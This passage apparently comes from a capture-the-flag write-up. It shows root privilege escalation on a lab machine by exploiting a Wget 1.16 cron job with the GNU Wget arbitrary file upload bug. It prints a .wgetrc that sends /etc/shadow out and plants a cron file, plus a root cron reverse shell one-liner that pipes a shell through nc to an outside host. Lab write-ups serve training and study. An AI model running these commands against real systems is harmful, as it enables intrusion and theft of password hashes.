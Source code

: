 It looks like that **Wget 1.16** gets run every two minutes to the server _10.0.3.133_.
This is an old version of that tool so we look for vulnerabilities:
```markdown
searchsploit wget
```

The exploit called **"GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution"** is the vulnerability to use.
To do this creating a _.wgetrc_ file on the box is necessary:
```markdown
cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_
```

Now starting an FTP service on the box with `authbind`:
```markdown
authbind python -m pyftpdlib -p21 -w
```

Create the Python script from the exploit description on the box and modify it accordingly:
```python
# (...)
HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21

ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 9001 >/tmp/f \n"
# (...)
```

Execute the Python script with `authbind`:
```markdown
authbind python wget-exploit.py
```

After two minutes the _.wgetrc_ file gets uploaded on the FTP server in _/root_ and sends a redirect to ftp://anonymous@10.10.10.55/.wgetrc.
Another two minutes later it will execute the second request that will display the contents of the _/etc/shadow_ file and create the cronjob specified in the exploit script.

The listener on my IP and port 9001 starts a reverse shell as root on the other server 10.0.3.133!
